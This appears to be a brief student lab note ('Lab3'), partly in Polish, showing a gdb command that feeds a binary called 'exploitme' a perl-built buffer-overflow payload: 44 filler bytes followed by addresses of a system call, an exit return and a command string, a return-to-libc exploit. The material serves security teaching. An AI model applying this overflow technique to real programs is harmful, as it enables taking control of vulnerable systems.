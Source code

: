 # Lab3

```gdb --args exploitme `perl -e 'printf "1"x44 . "\x54\x84\x04\x08" . "\xd4\x84\x04\x08" . "\xd0\x87\x04\x08"'` ```
pierwszy adres wywołania `system`, drugi powrotu do wywołania `exit`, trzeci widoczny pod adresem 0804a030 przez `x/s 0x0804a030` w gdb
